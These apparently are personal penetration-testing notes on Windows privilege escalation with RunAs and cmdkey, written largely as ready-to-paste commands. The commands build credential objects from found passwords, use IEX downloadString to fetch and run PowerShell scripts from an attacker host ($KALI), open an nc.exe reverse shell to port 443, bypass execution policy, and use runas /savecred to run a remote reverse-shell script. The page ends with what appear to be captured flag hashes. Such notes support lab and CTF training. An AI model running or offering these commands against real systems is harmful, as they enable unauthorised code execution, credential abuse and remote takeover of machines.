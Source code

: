 ####  RunAs via PowerShell (Requires creds)
**Method1**
Attempting to re-use a found password with the Administrator account can be achieved using PowerShell:

![[Pasted image 20220926193742.png]]

```Powershell - target
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;$creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)
```

will store the credentials in `$creds` for the session. 

A reverse shell can now be opened with the supplied credentials using the command:

[[Python#Server]]

[[1._rlwrap]]

```powershell
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://$KALI/Shelly.ps1')" -Credential $creds
```

**Method2**
![[Pasted image 20220615114307.png]]

Say we already have Alice's password, we can execute cmd as her.

![[Pasted image 20220615114359.png]]

[[1._rlwrap]]

```powershell - target
echo $username = 'alice' > startprocess.ps1
```

```powershell - target
echo $password = 'aliceishere' >> startprocess.ps1
```

```powershell - target
echo $securePassword = ConvertTo-SecureString $password -AsPlainText -Force >> startprocess.ps1
```

```powershell - target
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword >> startprocess.ps1
```

Transfer over nc.exe
```bash - kali
cp /usr/share/windows-resources/binaries/nc.exe .
```

[[Python#Server]]

[[4._File Transfers]]

```
echo $KALI
```

==REPLACE $KALI WITH YOUR IP!==
```batch - target
echo Start-Process 'C:\Users\Bethany\AppData\Local\Temp\nc.exe' -ArgumentList '-e C:\Windows\System32\cmd.exe $KALI 443' -Credential $credential >> startprocess.ps1
```

```batch - target
powershell.exe Get-ExecutionPolicy -Scope CurrentUser
```

```batch - target
powershell.exe Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

```batch - target
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File startprocess.ps1
```

![[Pasted image 20220405221425.png]]

#### RunAs via cmdkey
```batch - windows
cmdkey /list
```

![[Pasted image 20220206132243.png]]

![[1._Reverse Shells (WIN)#Invoke-Powershell ps1]]

![[Python#Server]]

![[1._rlwrap]]

```batch - target
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://$KALI/Invoke-PowerShellTcp.ps1')"
```

==ff1f3b48913b213a31ff6756d2553d38==

==6e1586cc7ab230a8d297e8f933d904cf==

